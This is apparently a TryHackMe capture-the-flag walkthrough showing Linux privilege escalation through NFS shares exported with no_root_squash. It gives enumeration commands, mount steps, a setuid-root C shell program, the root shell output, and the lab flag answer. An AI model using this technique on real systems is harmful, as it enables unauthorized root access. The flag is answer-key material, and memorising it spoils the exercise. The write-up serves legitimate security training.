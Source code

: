 Now it is time to enumerate for weaknesses in Network File Shares. This is the last new theory, so let’s get it over with.

Privilege escalation is not limited to local exploits—remote access vectors like SSH, Telnet, and NFS misconfigurations can also lead to root access.
#### Key Vectors:
1. Leaking Private Keys:
   - Finding a root SSH private key can allow direct root access instead of escalating privileges locally.
2. Exploiting NFS (Network File Sharing):
   - NFS configurations are stored in /etc/exports.
   - The “no_root_squash” option allows files created on the share to retain root privileges instead of being mapped to ```nfsnobody```.
   - This enables an attacker to:
      - Mount the share remotely.
      - Create an SUID executable that runs ```/bin/bash```.
      - Execute it on the target system with root privileges.
### Q.1: How many mountable shares can you identify on the target system?
enumerate mountable shares from our attacking machine we need to use the ```showmount -e <TARGET MACHINE IP>``` command.
```
└─$ showmount -e 10.201.24.12
Export list for 10.201.24.12:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
From there on we can count three mountable shares.
### Answer: 3

### Q.2: How many shares have the "no_root_squash" option enabled?
To see this, run the command ```cat /etc/exports```. We can count three **no_root_squash** options in the bottom.
```
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
### Answer: 3

### Q.3: Gain a root shell on the target system
Create a folder in your **/tmp** directory for the mounting of the NFS share. not the one you are logged in as Karen, do this:
```mkdir /tmp/sharedfolder```

Then we can mount the drive:
```mount -o rw <target ip>:/home/ubuntu/sharedfolder /tmp/sharedfolder```

Now ```cd /tmp/sharedfolder``` directory and create a script file:```nano shell.c``` and insert below code

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>  // ⬅️ Required for setuid and setgid

int main()
{ 
    setgid(0);             // Set group ID to root
    setuid(0);             // Set user ID to root
    system("/bin/bash");   // Launch a new bash shell
    return 0;
}
```
Then convert the saved **shell.c** file into an executable and compile it with the following command:
```gcc -static-libgcc -static shell.c -o shell ```

Switch over to the target(karen) machine and run the shell executable. 
If you file does not show up make sure you copied it to the folder where you mounted your share. 

Now go over to Karen's system and  ```cd /home/ubuntu/sharedfolderd``` and run ```ls -l``` command, 
```
$ ls
shell  shell.c
```
you would show 2 file, **shell** and **shell.c**. To gain root access run ```./shell``` file.

Now we got root!
```
root@ip-10-201-24-12:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```
### Answer: No answer needed

### Q.4: What is the content of the flag7.txt file?

Now we have root access, We've to find the flag and ```cat``` the flag: 
```
# find / -name flag7.txt 2>/dev/null
/home/matt/flag7.txt
# cat /home/matt/flag7.txt
THM-89384012
```
### Answer: THM-89384012

